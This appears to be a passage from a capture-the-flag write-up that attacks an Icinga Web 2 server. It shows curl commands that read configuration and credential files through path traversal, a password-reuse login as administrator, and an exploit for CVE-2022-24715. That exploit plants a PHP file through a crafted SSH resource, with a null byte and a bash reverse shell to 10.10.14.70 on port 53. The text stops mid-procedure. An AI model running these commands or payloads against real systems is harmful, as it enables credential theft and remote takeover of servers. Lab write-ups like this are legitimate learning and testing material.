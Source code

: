 Further research of Icinga Web revealed where interesting config files are located. So I started to check for credentials and anything else.  

Following files are interesting to me:  
- **/etc/icingaweb2/roles.ini**
- **/etc/incingaweb2/resources.ini** 

```bash
# Who's admin?
curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/roles.ini

# Found an user and password here
curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini
```

### Password Reuse

Using the credentials found in the resources.ini I was able to login as Matthew which is an administrator.  

### Remote Code Execution (CVE-2022-24715)

Let's start with some basics and create a SSH-Keypair

```bash
ssh-keygen -t rsa -m PEM
```

Next we need to create a new SSH resource in icingaweb.  
Can be done here: **Configuration -> Resources -> Create a New Resource**

```
Resource Name: ssh-user
User: ssh-user
Private Key: <Your generated Key>
```

Verify that it was stored as expected  

```bash
curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/ssh/ssh-user
```

Now the fun part, let's get a remote code execution  
Again I was creating a new resource but this time changing some of the parts  

```
Resource Name: SHELL
User: ../../../../../dev/shm/run.php
Private Key: file:///etc/icingaweb2/ssh/ssh-user%00 <?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.70/53 0>&1'");
```

Next go to **Configuration -> Application** and change the Module Path to include /dev/
